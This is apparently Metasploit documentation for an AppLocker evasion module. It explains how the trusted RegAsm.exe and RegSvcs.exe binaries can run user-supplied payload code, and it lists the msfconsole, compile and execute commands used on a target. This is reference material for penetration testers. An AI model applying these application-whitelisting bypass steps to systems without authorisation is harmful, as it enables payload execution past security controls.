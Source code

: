 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binaries RegAsm.exe or RegSvcs.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block RegAsm.exe, RegSvcs.exe or the "Microsoft.Net" directory.

## Options

- **TXT_FILE** - Filename for the evasive file (default: regasm_regsvcs.txt).
- **SNK_FILE** - Filename for the .snk file (default: key.snk). (note: to aid furter evasion it is recommended to create your own .snk file ref: https://docs.microsoft.com/en-us/dotnet/framework/app-domains/how-to-sign-an-assembly-with-a-strong-name)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_regasm_regsvcs`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] regasm_regsvcs.txt stored at /root/.msf4/local/regasm_regsvcs.txt`
  7. `[+] key.snk stored at /root/.msf4/local/key.snk`
  8. `[*] Copy regasm_regsvcs.txt and key.snk to the target`
  9. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regasm_regsvcs.dll /keyfile:key.snk regasm_regsvcs.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  10. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regsvcs.exe regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] or`
  12. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regasm.exe /U regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1121/
